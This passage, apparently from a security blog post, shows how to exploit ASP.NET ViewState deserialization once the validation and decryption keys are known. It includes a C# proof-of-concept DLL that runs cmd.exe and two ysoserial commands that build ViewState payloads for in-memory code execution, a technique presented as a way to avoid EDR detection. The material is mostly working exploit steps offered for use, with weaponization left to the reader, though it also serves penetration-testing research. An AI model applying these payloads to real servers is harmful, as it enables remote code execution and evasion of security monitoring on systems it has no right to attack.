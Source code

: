 Demo:

{{< youtube 5caRXssA2go >}}

Naturally you might be wondering about the scenarios where the keys are set to be auto-generated. In this case Soroush Dalili (@irsdl) comes to rescue again! By uploading this aspx code to the application, the automatically generated keys will be shown: https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab

#### Code Execution

Command execution should suffice to exploit the application. But if some EDR is in place, probably this type of payload will be detected and prevented.

To circumvent this inconvenience, it is possible to execute code directly in memory and don't spawn a cmd.exe from w3wp.exe (highly suspicious).

First, let's create our dll (.NET Framework). This is the code that will run:

```C#
using System.Diagnostics;

namespace PoC
{
    internal class Program
    {
        public Program()
        {
            Process.Start("cmd.exe", "/c tasklist.exe > C:\\Users\\Public\\Hacked.txt");
        }
    }
}
```

Of course this is just a PoC code and do not remain in memory. Weaponization is let to the reader (see the references section).

With this compiled dll we can use ysoserial again to build the payloads. Fist, is necessary to use the gadget ActivitySurrogateDisableTypeCheck to disable type protections for ActivitySurrogateSelector.

```
.\ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck -c "ignore" --path="/" --apppath="/" --validationalg="<Validation_algorithm>" --validationkey="<validation_key_value>" --decryptionalg="<decryption_algorithm>" --decryptionkey="<decryption_key_value>" --isdebug
```

Now we'll be using the ActivitySurrogateSelectorFromFile gadget to generate our payload based on our compiled dll.

```
.\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "<path/to/the/.dll>" --path="/" --apppath="/" --validationalg="<Validation_algorithm>" --validationkey="<validation_key_value>" --decryptionalg="<decryption_algorithm>" --decryptionkey="<decryption_key_value>" --isdebug
```

Upon execution you will notice a new "Hacked.txt" file in public user home. (～￣▽￣)～
